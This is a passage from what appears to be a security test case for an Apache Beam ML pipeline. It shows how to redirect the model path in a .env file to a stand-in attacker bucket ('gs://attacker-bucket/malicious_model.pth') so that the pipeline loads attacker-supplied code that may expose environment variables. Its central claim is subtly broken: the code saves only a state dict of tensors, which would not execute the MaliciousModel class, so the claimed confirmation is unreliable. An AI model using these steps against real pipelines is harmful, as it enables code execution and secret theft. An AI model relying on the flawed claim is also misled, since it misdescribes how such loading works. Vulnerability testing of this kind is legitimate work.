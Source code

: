             model = MaliciousModel(num_classes=10) # num_classes is just an example parameter
            torch.save(model.state_dict(), 'malicious_model.pth')
            ```
        - Run `python create_malicious_model_state_dict.py` to create `malicious_model.pth` in your local directory.
        - Upload `malicious_model.pth` to a publicly accessible Google Cloud Storage bucket. For example, if your bucket is named `attacker-bucket` and you upload the file to the root, the GCS path will be `gs://attacker-bucket/malicious_model.pth`.

    2. **Modify Project Configuration:**
        - Edit the `.env` file in the project directory.
        - Change the line `MODEL_STATE_DICT_PATH="gs://apache-beam-ml/models/torchvision.models.mobilenet_v2.pth"` to `MODEL_STATE_DICT_PATH="gs://attacker-bucket/malicious_model.pth"`.
        - Ensure `MODEL_NAME` is set to a valid model name like `mobilenet_v2` (it doesn't strictly matter for this test as the malicious model loading is the focus).

    3. **Run the Pipeline Locally:**
        - Execute the command `make run-direct` from the project's root directory.

    4. **Observe the Output and Logs:**
        - Examine the console output and any logs generated by the `make run-direct` command.
        - **Expected Outcome (Vulnerability Confirmed):** You should see the message "Malicious model loaded and executed!" printed in the output or logs. This confirms that the pipeline loaded and executed the `MaliciousModel` class from the attacker-controlled path. You might also see the environment variables printed if the malicious code successfully accessed them.
        - **If the vulnerability is mitigated:** You should *not* see the "Malicious model loaded and executed!" message, and the pipeline should ideally either fail to load the model or load a safe, expected model.

This test case demonstrates that by manipulating the `MODEL_STATE_DICT_PATH` configuration, an attacker can indeed cause the pipeline to load and execute code from a model they control, confirming the vulnerability.
